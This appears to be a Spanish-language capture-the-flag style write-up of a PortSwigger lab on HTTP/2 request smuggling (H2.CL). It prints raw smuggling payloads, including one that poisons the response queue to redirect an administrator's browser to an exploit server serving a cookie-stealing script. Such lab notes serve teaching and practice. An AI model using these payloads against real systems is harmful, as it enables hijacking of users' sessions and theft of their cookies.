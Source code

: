En esta clase llevamos a cabo un ataque de request smuggling utilizando HTTP/2 con un encabezado ‘**Content-Length**‘ malicioso (H2.CL), cuyo objetivo es hacer que el navegador de la víctima cargue y ejecute un archivo JavaScript desde nuestro servidor malicioso.

Aprovechamos una redirección automática al acceder a /resources, lo que nos permite inyectar una petición que, al ser procesada por el back-end, provoca que la víctima sea redirigida al exploit server donde se aloja nuestro payload ‘**alert(document.cookie)**‘.

La clave está en enviar la petición en el momento justo en que el administrador accede a la página, ya que este tráfico será el que acabe siendo redirigido gracias a la cola de respuestas envenenada. Esta técnica requiere repetir el ataque varias veces hasta acertar con el timing exacto.

Solucion
asi que vamos hacer la configuracion de la intercepcion de la pagina principal y vamos a meter un paylaod para que nos muestre el error 404 y asi saber si es vulnerable a smuggling
![Pasted_image_20250809212331.png](/Imagenes/Pasted_image_20250809212331.png)
payload (POST / HTTP/2

Host: 0acf009104a4a3a580be0371005c0095.web-security-academy.net

Content-Length: 14



test=testing

GET /error HTTP/1.1

Host: 0acf009104a4a3a580be0371005c0095.web-security-academy.net

Content-Length: 5



x=1)
entonces en este caso a un request smugling
entonces que sigue por que en este caso nosotros no podemos copiar asi la cookie entonces lo que hacemos es investigar un poco y si miramos en el BS en el http history vemos que se esta haciendo alucion a /resources cada poco tiempo
![Pasted_image_20250809212628.png](/Imagenes/Pasted_image_20250809212628.png)
de modo que nostros no podemos hacer la peticion por medio de esta vulnerabilidad lo que podemos hacer es redireccionar nuestro payload hacia resources para ver si nos arroja el mismo error
![Pasted_image_20250809213017.png](/Imagenes/Pasted_image_20250809213017.png)
y en este caso nos arroja el 302 (entonces lo que podemos hacer es redirigir a nuestro exploit server)
pasamos a configurarlo
![Pasted_image_20250809213648.png](/Imagenes/Pasted_image_20250809213648.png)
entonces cambiamos el host hacia nuestro exploit server y le damos send
![Pasted_image_20250809213730.png](/Imagenes/Pasted_image_20250809213730.png)
ahora si le damos follow redirection
![Pasted_image_20250809214244.png](/Imagenes/Pasted_image_20250809214244.png)
payload (POST / HTTP/2

Host: 0acf009104a4a3a580be0371005c0095.web-security-academy.net

Content-Length: 14



test=testing

GET /resources HTTP/1.1

Host: exploit-0a65006b044fa3548057025e012f00fe.exploit-server.net

Content-Length: 5



x=1)
entonces es solo cuestion de esperar para poder tener respuesta de la cookie
![Pasted_image_20250809214528.png](/Imagenes/Pasted_image_20250809214528.png)
